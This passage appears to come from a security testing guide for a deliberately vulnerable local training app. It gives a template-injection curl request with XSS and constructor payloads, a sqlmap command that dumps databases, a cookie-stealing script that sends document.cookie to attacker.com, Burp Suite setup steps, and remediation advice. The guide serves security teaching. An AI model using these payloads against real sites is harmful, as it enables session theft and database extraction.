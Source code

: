 #### 5.3 Template Injection
**Location:** `/api/documents/generate`
**Exploitation:**
```bash
# Template injection leading to XSS
curl -X POST "http://localhost:3020/api/documents/generate" \
  -H "Content-Type: application/json" \
  -d '{
    "template":"report",
    "title":"<script>alert(1)</script>",
    "content":"{{constructor.constructor(\"alert(1)\")()}}",
    "script":"fetch(\"/api/users/admin/list\").then(r=>r.json()).then(d=>console.log(d))"
  }'
```

## Exploitation Tools and Scripts

### SQLMap Example
```bash
# Automated SQL injection detection and exploitation
sqlmap -u "http://localhost:3020/api/labs/sqli/easy?q=test" \
       --batch --dbs --tables --dump
```

### XSS Hunter Payload
```javascript
// Steal cookies and send to attacker
<script>
fetch('https://attacker.com/steal?c='+document.cookie)
</script>
```

### Burp Suite Configuration
1. Set up proxy on localhost:8080
2. Add target scope: `http://localhost:3020/*`
3. Enable active scanning for:
   - SQL injection
   - XSS
   - Path traversal
   - IDOR

## Remediation Recommendations

### SQL Injection
- Use parameterized queries/prepared statements
- Implement input validation and sanitization
- Use stored procedures where appropriate
- Apply principle of least privilege to database users

### XSS
- Implement Content Security Policy (CSP)
- Use context-aware output encoding
- Validate and sanitize all user inputs
- Use secure frameworks that auto-escape
